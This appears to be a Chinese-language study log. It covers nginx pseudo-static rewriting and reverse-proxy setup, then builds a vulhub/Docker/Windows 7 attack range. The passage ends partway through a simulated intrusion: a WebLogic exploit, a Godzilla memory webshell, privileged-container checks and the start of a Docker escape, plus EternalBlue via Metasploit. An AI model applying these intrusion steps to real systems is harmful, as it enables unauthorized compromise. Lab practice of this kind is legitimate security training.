 - 发送数据: 调用写终端的函数就是发送数据
```

**fastcgi如何处理数据？**

```
// 编写登录的fastCgI程序
int main()
{
    while(FCGI_Accept() >= 0)
    {
        // 1. 接收登录信息 -> 环境变量中(post|get)
        // post -> 读数据块的长度 CONTENT-LENGTH
        // get -> 从请求行的第二部分读 QUEERY_STRING
        
        // 2. 处理数据
        
        // 3. 回发结果 -> 格式假设是json
        printf("Content-type: application/json");
        printf("{\"status\":\"OK\"}")
    }
}

```

##### 伪静态详解

```
伪静态即是网站本身是动态网页如.php、.asp、.aspx等格式动态网页有时这类动态网页还跟"?"加参数来读取数据库内不同资料，伪静态就是做url重写操作(即rewrite)。很典型的案例即是discuz论坛系统，后台就有一个设置伪静态功能，开启伪静态后，动态网页即被转换重写成静态网页类型页面，通过浏览器访问地址和真的静态页面没区别。但是记住：做伪静态的前提就是服务器要支持伪静态重写URL Rewrite功能。

考虑搜索引擎优化(即SEO)，将动态网页通过服务器处理成静态页面，如www.kevin.com/jk/fd.php?=12这样的动态网页处理成www.kevin.com/jk-fd-12.html这样格式静态页面，常见的论坛帖子页面，都是经过伪静态处理成静态页面格式html页面。由于网站所用的程序语言不易被发现，经过重写来伪静态来将动态网页的程序后缀变为html的静态页面格式。伪静态是一种可以把文件后缀改成任何可能的一种方法，比如如果想把php文件伪静态成html文件，这种配置相当简单的，后面会提到相应配置。
```

##### **真静态与伪静态**

真静态(html)优点；1)减少服务器对数据响应的负荷；2)加载不用调动数据库，响应速度快。 

真静态缺点：1)维护不方便，每次都要手动生成；2)空间占用比较大,容易造成磁盘压力；3)生成的文件多，服务器对html文件的响应负担也较重。

伪静态(url重写)优点：1)可以方便的实现对化化引擎的优化，并且比生成静态更加方便；2)占空间比较小；3)首页每天都自动变化，不用维护。网站首页一般都有热点排行之类的，你可以设为，24小时排行，一周排行，再加上最新文章，最新点评等。这样首页天天是有变化的；4)便于广告的轮显。比如：你可以把 art1234.aspx，这个虚成n个页,如art_1234.aspx,news_1234.aspx，top_1234.aspx，在不同的页面放 不同的广告。总之是动态的，就可以随意动。 

伪静态缺点：1)如果流量稍大一些使用伪静态就出现CPU使用超负荷,因为伪静态是用正则判断而不是真实地址，分辨到底显示哪个页面的责任也由直接指定转由CPU来判断了，所以CPU占有量的上升，确实是伪静态最大的弊病；2)伪静态效率不如生成html的，因为它不是真正意义上的静态页，所以每次请求都是要去读取数据库的信息（这个可以用缓存技术来补偿一下）。

##### 真静态和伪静态的区别 

1)是不是一个真正静态页面； 

2)有没有和数据库或后台程序进行交互； 

3)它们的应用场景和解决的问题不同； 

4)用javascript:alert(document.lastModified)来判断是真静态还是伪静态；

##### **伪静态的实现** 

伪静态是相对于真静态而言的,就是把一些asp，php等结尾url通过apche或nginx的重写规则，变成以html一类的静态页面形式。伪静态不是真正的静态，它和动态地址一样要读取数据库。伪静态最主要的作用就是利于seo，百度spider(百度蜘蛛)喜欢抓取静态页面，可容易使百度spider陷入死循环；并发量高的时候会加大服务器的压力，所以用的时候要注意。

伪静态就是利用apche，nginx重写规则，对url地址重写实现的！伪静态实现原理: 1) Apache伪静态前提是要打开apache的重写模块 (即打开"LoadModule rewrite_module modules/mod_rewrite.so"这一行)； 2) Nginx默认就支持伪静态；

伪静态有两种配置方式 1) 在配置[虚拟主机](https://cloud.tencent.com/product/lighthouse?from_column=20065&from=20065)的时候设置； 2) 在web根目录下创建一个.htaccess文件，在这个文件里面配置；

##### rewirte伪静态参数配置

**正则表达式匹配，其中：**

1. \* ~ 为区分大小写匹配
2. \* ~* 为不区分大小写匹配
3. \* !~和!~*分别为区分大小写不匹配及不区分大小写不匹配

**文件及目录匹配，其中：**

1. \* -f和!-f用来判断是否存在文件
2. \* -d和!-d用来判断是否存在目录
3. \* -e和!-e用来判断是否存在文件或目录
4. \* -x和!-x用来判断文件是否可执行

**flag标记有：**

1. \* last 相当于Apache里的[L]标记，表示完成rewrite

2. \* break 终止匹配, 不再匹配后面的规则

3. \* redirect 返回302临时重定向 地址栏会显示跳转后的地址

4. \* permanent 返回301永久重定向 地址栏会显示跳转后的地址

   **一些可用的全局变量有，可以用做条件判断(待补全)**

```

$args
$content_length
$content_type
$document_root
$document_uri
$host
$http_user_agent
$http_cookie
$limit_rate
$request_body_file
$request_method
$remote_addr
$remote_port
$remote_user
$request_filename
$request_uri
$query_string
$scheme
$server_protocol
$server_addr
$server_name
$server_port
$uri
```

##### thinkphp伪静态

URL伪静态通常是为了满足更好的SEO效果，ThinkPHP支持伪静态URL设置，可以通过设置`url_html_suffix`参数随意在URL的最后增加你想要的静态后缀，而不会影响当前操作的正常执行。例如，我们在`route.php`中设置

```
'url_html_suffix' => 'shtml'
```

的话，我们可以把下面的URL

```
http://serverName/blog/read/id/1
```

变成

```
http://serverName/blog/read/id/1.shtml
```

后者更具有静态页面的URL特征，但是具有和前面的URL相同的执行效果，并且不会影响原来参数的使用。

默认情况下，伪静态的设置为`html`，如果我们设置伪静态后缀为空字符串，

```
'url_html_suffix'=>''
```

则支持所有的静态后缀访问，如果要获取当前的伪静态后缀，可以使用`Request`对象的`ext`方法。

例如：

```
http://serverName/blog/3.html
http://serverName/blog/3.shtml
http://serverName/blog/3.xml
http://serverName/blog/3.pdf
```

都可以正常访问。

我们可以在控制器的操作方法中获取当前访问的伪静态后缀，例如：

```
$ext = Request::ext();
```

如果希望支持多个伪静态后缀，可以直接设置如下：

```
// 多个伪静态后缀设置 用|分割
'url_html_suffix' => 'html|shtml|xml'
```

那么，当访问 `http://serverName/blog/3.pdf` 的时候会报系统错误。

如果要关闭伪静态访问，可以设置

```
// 关闭伪静态后缀访问
'url_html_suffix' => false,
```

关闭伪静态访问后，不再支持伪静态方式的URL访问，并且伪静态后缀将会被解析为最后一个参数的值，例如：

```
http://serverName/blog/read/id/3.html
```

最终的id参数的值将会变成 `3.html`。

# 8.5

### 配置反向代理

**首先在我们的windows（反代服务器）上安装nginx服务**

Nginx的反向代理配置主要在nginx.conf或包含的子配置文件（如sites-enabled/*.conf）中进行。配置主要包括以下部分：

HTTP服务器块 (server): 定义监听的IP地址、端口以及与之关联的域名（server_name）。

位置块 (location): 根据请求URI进行匹配，并定义在此范围内应执行的操作，如反向代理。

反向代理指令 (proxy_pass): 指定请求应被转发到的后端服务器的URL。Nginx将替换匹配到的位置块中的URI，并将其发送到指定的后端服务器。

#### nginx反向代理配置

```
http {
    # 基本HTTP服务器配置
    server {
        listen 80;                 # 监听端口
        server_name example.com;   # 绑定域名
 
        # 匹配所有请求，将它们转发到后端服务器
        location / {
            proxy_pass http://backend-server:8080;  # 后端服务器地址与端口
            proxy_set_header Host $host;             # 保留原始Host头
            proxy_set_header X-Real-IP $remote_addr; # 传递真实客户端IP
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
            proxy_set_header X-Forwarded-Proto $scheme;  # 传递请求协议（http/https）
 
            # 其他可选配置，如缓存、超时、重试等
        }
    }
}
```

# 8.6

对于配置文件做更改


我们找到之前测试的进程，把它杀亖

```
tasklist |findstr "nginx.exe"
```


全部嘎掉

根据pid来杀亖

```
taskkill /f /t /pid pid号码
```


可以根据全称来杀亖全部进程


杀亖大部分进程，再尝试单独杀亖拒绝访问的进程

找到父进程1876杀亖

可以看到全部清理干净


然后再来双击nginx.exe文件


站点成功

然后配置nginx.conf文件，加入代理模块配置，成功代理


### docker逃逸复现

现做调整

```
新开一个centos服务器来做dockerweb服务，在docker中搭建web服务，并且反代服务器代理改为dockerweb服务
```

#### 安装docker

先安装docker的依赖包

```
 yum install -y yum-utils
```


设置docker稳定镜像库,更新本地镜像源

```
# 设置docker镜像源
1 yum-config-manager \
   2  --add-repo \
 3   https://mirrors.aliyun.com/docker-ce/linux/centos/docker-ce.repo
    
4 sed -i 's/download.docker.com/mirrors.aliyun.com\/docker-ce/g' /etc/yum.repos.d/docker-ce.repo

5 yum makecache fast
```


安装docker（社区版）

```
yum install docker-ce docker-ce-cli containerd.io
yum install -y docker-ce
```


启动docker服务，看是否成功


成功安装docker服务

**特权模式运行docker**

**如何开启特权模式**

要在Docker容器中开启特权模式，我们可以使用--privileged选项。例如，以下是一个启动特权容器的示例命令：

```
docker run --privileged -it ubuntu bash
```

在上述命令中，我们使用--privileged选项来启动一个以交互式方式运行的Ubuntu容器，并打开一个bash终端。

知道了如何来使用特权模式开启容器，我们现在来安装靶场试试

# 8.14

#### 安装dockercompose

使用命令下载

```
# 安装
curl -L https://github.com/docker/compose/releases/download/1.23.1/docker-compose-`uname -s`-`uname -m` > /usr/local/bin/docker-compose
```


修改文件权限

```
chmod +x /usr/local/bin/docker-compose
```

base自动补全命令

```
# 补全命令
curl -L https://raw.githubusercontent.com/docker/compose/1.29.1/contrib/completion/bash/docker-compose > /etc/bash_completion.d/docker-compose
```

最后看是否安装成功，可以看到成功安装docker-compose


#### 下载配置vulhub

创建目录并安装git

```
mkdir -p /var/local/soft/
cd /var/local/soft
yum -y install git
```


从vulhub官方下载靶场文件

```
git clone https://github.com/vulhub/vulhub.git
```

但是这里我们挂上代理来下载

```
git config --global http.proxy 'socks5://127.0.0.1:1080'
git config --global https.proxy 'socks5://127.0.0.1:1080'
这里的ip和端口跟上我们本地的代理
```


用完之后可以关闭代理

```
git config --global --unset http.proxy
git config --global --unset https.proxy
```


进到vulhub靶场，可以看到很多漏洞环境


这里我们随便选择一个漏洞环境来试试

```
cd /weblogic/weak_password/
```

这里看见我们的绝对路径


启动漏洞环境


怒了

更新了dockercompose的版本，出现了一个文件忙的报错

用

```
ps -aux | grep <进程名>找到进程号杀掉，再进入vulhub靶场尝试启动环境
```

启动环境发现又报错了。。。


我们这里换一下docker的源

**编辑Docker配置文件**: 打开或创建 `/etc/docker/daemon.json` 文件

```
{
  "registry-mirrors": [
    "https://registry.docker-cn.com",
    "http://hub-mirror.c.163.com",
    "https://docker.mirrors.ustc.edu.cn",
    "https://dockerhub.azk8s.cn",
    "https://mirror.ccs.tencentyun.com",
    "https://registry.cn-hangzhou.aliyuncs.com",
    "https://docker.mirrors.ustc.edu.cn",
    "https://atomhub.openatom.cn"
  ]
}
```

**重启Docker服务**: 为使配置生效，请执行以下命令：

```bash
sudo systemctl daemon-reload
sudo systemctl restart docker
```

```
或者换成这些
{
    "registry-mirrors": [
        "https://hub.uuuadc.top",
        "https://docker.anyhub.us.kg",
        "https://dockerhub.jobcher.com",
        "https://dockerhub.icu",
        "https://docker.ckyl.me",
        "https://docker.awsl9527.cn",
        "https://atomhub.openatom.cn"
    ]
}
```

后续一直出现Error response from daemon: Get “https://registry-1.docker.io/v2/“: read:报错

**解决：**

首先尝试了，修改http-proxy.conf文件发现并没有作用

```
# 创建/etc/systemd/system/docker.service.d路径
sudo mkdir -p /etc/systemd/system/docker.service.d
# 创建 http-proxy.conf
sudo touch /etc/systemd/system/docker.service.d/http-proxy.conf
# 写入配置
vim /etc/systemd/system/docker.service.d/http-proxy.conf
# 粘贴下方配置代理并wq退出
[Service]
Environment="HTTP_PROXY=http://proxy.example.com:8080/"
Environment="HTTPS_PROXY=http://proxy.example.com:8080/"
Environment="NO_PROXY=localhost,127.0.0.1,.example.com"
```

尝试做以下配置修改

```
cd /lib/systemd/system && sudo vim docker.service

Environment=HTTP_PROXY=http://10.70.80.900:8080/ #这里换成自己的本地代理
Environment=HTTPS_PROXY=http://10.70.80.900:8080/ #这里也换成本地代理
Environment=NO_PROXY=localhost, 127.0.0.1, ::1, 10.9*
```

然后重启服务

```
sudo systemctl daemon-reload 
sudo systemctl restart docker
```

然后进入到我们的/var/local/soft/vulhub/weblogic/weak_password漏洞环境目录，尝试pull，发现没有再出现报错，成功拉取


关闭防火墙，重启docker再来开启


访问页面，发现特征明显的weblogic指纹


```
http://192.168.1.1:7001/console/login/LoginForm.jsp
```

尝试访问登录框页面


```
使用weblogic/Oracle@123成功登录，证明vulhub部署完毕。
```

登录成功


不需要靶场时，使用

```
docker-compose down关闭靶场
```

#### 更改nginx反向代理配置

改一下后端服务地址与端口


重启nginx的服务


发现方向代理成功


#### 特权模式docker逃逸配置

配置docker-compose.yml文件，加上特权模式再重新启动


启动成功。

### 网卡配置

我们根据自己设定的网络模式，来进行分配

```
192.168.111.xxx 网卡1
192.168.130.xxx 网卡2
192.168.193.xxx 网卡3
```

给docker web主机添加一个网卡2


给centos cms改为网卡2和网卡3


给win2019设置为网卡3


网络配置完成

### cms

尝试给win7添加网卡2，看业务系统是否还能正常访问到，可以看见还能正常访问到（配置一下防火墙策略）


### windows 7永恒之蓝

配置网卡3


先打开msfconsole


搜索永恒之蓝漏洞，选择可以利用的漏洞


用options查看需要设置的参数


设置目标ip


出现win的字样，存在永恒之蓝漏洞，成功打入


**至此靶场搭建完毕**

## 模拟攻击

### 信息搜集

首先nmap上号扫！

扫到几个开放的端口，可以尝试访问敏感端口


访问端口发现特征明显的指纹


### webshell

尝试用weblogic工具打一下

发现存在weblogic相关漏洞


尝试命令执行


注入内存马，再用哥斯拉连接


连接成功，拿到webshell


拿到webshell之后我们尝试信息搜集，首先看网卡情况

发现与我们攻击的ip不一致

尝试列出根目录下的文件看看，是否有信息

看到有/.dockerenv的文件，证明我们现在处于docker容器中，要进行docker逃逸


执行命令看是否是特权模式

```
cat /proc/self/status | grep CapEff
```

CapEff 对应的掩码值为0000003fffffffff 或者是 0000001fffffffff则是特权模式运行，可以看见我们当前就是特权模式运行


现在处于特权模式所以尝试docker特权模式逃逸

**查看挂载磁盘设备**：`fdisk -l`


